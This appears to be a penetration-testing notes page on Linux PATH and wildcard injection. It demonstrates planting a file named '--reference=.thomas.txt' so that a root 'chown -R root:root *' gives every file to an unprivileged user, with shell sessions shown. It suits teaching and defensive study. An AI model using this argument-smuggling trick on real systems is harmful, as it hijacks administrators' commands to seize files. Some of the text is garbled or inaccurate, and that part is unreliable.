 ###### *If you don't know, now you know: [PATH](https://en.wikipedia.org/wiki/PATH_(variable))*

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.

When the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user.

### Wildcard

When you provide **--** followed by two spaces, it instructs the program to stop interpret command line argument.

#### Chown/Chmod file reference

Here we wil use the **--reference=FILE** parameter that use the given *file*'s owner and group rather than specifying OWNER:GROUP values.

```bash
touch -- --reference=.thomas.txt
chown -R * .txt # This wil
```

Here below is an example:

```bash
# Create:
# - One file called ".thomas.txt" that belong to me
# - One filed called "--reference=.thomas.txt" which will be used as a reference parameter

kali@kali:/example$ touch .thomas.txt
kali@kali:/example$ touch -- --reference=.thomas.txt

# You can see that all files, except the two I created belongs to root
kali@kali:/example$ ls -all
total 44
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 root root     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 root root     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 root root     0 Nov 20 11:41  file3.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt

# Let's connect as root and decide that ALL files within the directory
# should belong to the user and group root
root@kali:/example# chown -R root:root * 2>/dev/null

# And we can see that it took the "--reference=.thomas.txt" via the '*' and assigned all the files to the user kali
root@kali:/example# ls -all
total 44
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41  file3.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt
```
